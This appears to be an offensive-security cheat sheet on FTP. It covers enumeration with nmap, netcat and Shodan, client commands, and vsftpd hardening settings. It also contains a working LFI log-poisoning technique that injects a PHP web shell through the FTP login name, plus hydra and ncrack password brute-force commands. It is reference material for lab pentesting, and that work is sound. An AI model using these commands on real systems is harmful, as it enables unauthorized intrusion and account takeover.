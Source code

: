 ```yaml
---
title: 🟢 21 FTP (TCP)
date: 0021-01-01
layout: post
---
```


### Overview

[**File Transfer Protocol (FTP)**](https://en.wikipedia.org/wiki/File_Transfer_Protocol) is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  

Default Port: **`21`**  
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```
 
When [**Nmap**](https://nmap.org) does not get the service header, it uses the [**IANA**](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) db to determine the name of the service associated with that port.

---

### Enumeration

#### Active

```bash
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2

# ftps
openssl s_client -connect 192.168.1.2:21
openssl s_client -connect 192.168.1.2:21 -starttls ftp
```

#### Pasive

##### [**Shodan**](https://shodan.io)

```bash
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```bash
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```bash
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the **`/etc/passwd`** file.  

> ##### WARNING
> You should also verify that **port 21 (FTP)** is in the **open** state.
{: .block-warning }

```bash
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at **`/var/log/vsftpd.log`**.

```bash
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```bash
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```bash
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a **`username`** and need the **`password`** this is the way.

```bash
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I     # ftp
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I    # ftps
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
```

#### Username

If you have a **`password`** and need the **`username`** this is the way.

```bash
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2 -f
hydra -t 64 -L /opt/techyou.txt -p Passw0rd ftp://192.168.1.2 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- **`/srv/ftp`** - Default **directory** path.
- **`/var/log/vsftpd.log`** - Default **log** file path.
- **`/etc/vsftpd.conf`** - Default path of the **configuration** file.

#### Install

```bash
# client
apt install -y ftp
apt install -y lftp

# server
apt install -y vsftpd
```

#### Change Port

```bash
# default port
listen_port=21

# other port
listen_port=1234
```

#### User (Guest)

```bash
# enable
anonymous_enable=YES

# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```bash
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3

# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```bash
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES

# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```bash
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---

<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span style="color: #ffffffa4;">© VulNyx 2023-2025</span>
</div>
